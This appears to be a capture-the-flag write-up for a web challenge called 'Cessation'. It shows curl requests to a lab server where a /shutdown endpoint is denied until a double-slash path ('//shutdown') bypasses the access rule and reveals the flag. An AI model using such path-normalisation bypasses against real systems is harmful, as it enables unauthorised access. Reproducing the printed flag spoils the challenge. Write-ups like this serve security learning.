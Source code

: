 # Cessation

## Challenge

```
curl http://178.62.14.240:32090/
```

```html
<div class="greeting-card">
    <h2>Its time to end!!<br/>Device Status: Online</h2>
</div>
```

```
curl http://178.62.14.240:32090/shutdown
```

```html
<div class="greeting-card">
    <h2>Access Denied..</h2>
</div>
```

## Solution

```
curl http://178.62.14.240:32090//shutdown
```

```html
<div class="greeting-card">
    <h2>Initiating Network Shutdown...<br/>Device Status: Offline<br/>CHTB{c3ss4t10n_n33d_sync1ng_#@$?}</h2>
</div>
```

## Flag

`CHTB{c3ss4t10n_n33d_sync1ng_#@$?}`

